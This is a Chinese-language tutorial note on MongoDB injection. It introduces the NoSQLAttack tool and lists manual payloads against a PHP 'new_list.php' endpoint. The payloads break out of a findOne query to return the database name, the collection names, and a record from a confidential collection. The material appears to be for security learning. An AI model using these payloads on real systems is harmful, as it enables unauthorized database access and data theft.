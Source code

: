   参考文档：https://www.cnblogs.com/peterpan0707007/p/8242119.html

### mongoDB注入

- 使用工具

  SQLmap不能识别MongoDB，这里介绍nosqlattack：https://github.com/youngyangyang04/NoSQLAttack

  首先输入目标网站IP：

  ![image-20220727164245044](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727164245044.png)

  然后输入路径：

  ![image-20220727164313282](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727164313282.png)

  尝试攻击：

  ![image-20220727164346561](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727164346561.png)

- 手工注入

  参考文档：

  https://blog.csdn.net/qq_39936434/article/details/95319449

  https://www.cnblogs.com/wefeng/p/11503102.html

  Mongodb的查询文档方式与其他的数据库略微不同，当进行条件查询的时候，mysql是用where, 而mongodb是以键值对形式进行查询的。

  比如按id="1"查询表news中的数据：`select * from admin {'id': '1'})`。

  - 构建回显，mongoDB查询操作的源代码为findone({‘id’：‘1’})

    攻击语句：`/new_list.php?id=1'});return({title:1,content:'2`

    ![img](https://i0.hdslb.com/bfs/article/4e7e306f459dea0d7e0f0f629cfc5164865c521c.png@831w_207h_progressive.webp)

  - 爆库

    `/new_list.php?id=1'}); return ({title:tojson(db),content:'1`

    ---tojson() 方法可以将 Date 对象转换为字符串格式化为 JSON 数据格式，相当于MySQL的数据库名。

    ![img](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/58e82612a8625ea7cb239e0e56529d8b36c06def.png@831w_168h_progressive.webp)

  - 爆表

    `/new_list.php?id=1'});return({title:tojson(db.getCollectionNames()),content:'1` 

    db.getCollectionNames()返回的是数组，转化为json格式，相当于MySQL的tables。

    ![img](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/193beaae0edc48fde33c165acbb2ee1e430c4600.png@831w_210h_progressive.webp)

  - 查询指定数据

    `/new_list.php?id=1'});return({title:tojson(db.Authority_confidential.find()[0]),content:'1`

    元素集中查找使用E.find(expr)函数，用于从匹配的元素集E的子元素中找出与find指定表达式expr相匹配的元素集合，E 同 expr 可视作同父子元素关系.
